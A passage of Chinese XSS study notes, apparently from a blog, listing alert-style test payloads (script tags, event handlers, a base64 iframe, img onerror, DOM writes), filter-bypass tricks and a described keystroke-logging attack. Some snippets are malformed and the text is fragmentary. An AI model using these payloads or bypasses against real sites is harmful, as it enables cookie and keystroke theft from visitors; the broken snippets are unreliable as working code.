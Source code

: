 Cookie是非常常见的，基本上你的浏览器中都会存储了成百上千条Cookie信息。

记录键盘：

网页被植入xss脚本，普通用户访问此网页时，该用户在当前页面上所有的键盘按键都会被记录下来，并且发送到远端服务器。

方法实现：

```html
<!-- 弹框函数 -->
<script>alert(1)</script>
onclick=alert(1)
onmouseover=alert(1)
onfocus=javascript:alert()
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+">
#看看data的，这里利用iframe标签，插入一个标签data:text/html;base64, 将后面的内容进行base64解码，PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+进行base64解码后是<script>alert()</script>

<!-- 引用外部文件 -->
<script src='http://127.0.0.1/test.js'></script>
<a href="javascript:alert(1)">123</a>

<!-- 图片类 -->
<img src="x” onerror=alert(1)>
#onerror属性是指当图片加载不出来的时候触发js函数，以上面的代码为例，这里因为src指向的是值666，而不是图片的地址和base64编码啥的，就会导致触发alert函数

<!-- DOM -->
document.getElementById("footer").innerHTML = "<script>alert('XSS Attack!')"</script>";
document.write("<script>alert('XSS Attack!')</script>");
document.write("<input");****
    

```



结合存储型XSS进行：

我们也可以结合存储型XSS漏洞进行攻击，将CSRF代码写入XSS注入点中，如下：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201029152950417.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201029152950417.png#pic_center)

### 绕过

* 大小写绕过
* 双写绕过
* 编码绕过(HTML实体编码，16进制，10进制)

**xss过关总结：**

14、17关有问题

15关没过

xss通关教程：https://blog.csdn.net/l2872253606/article/details/125638898
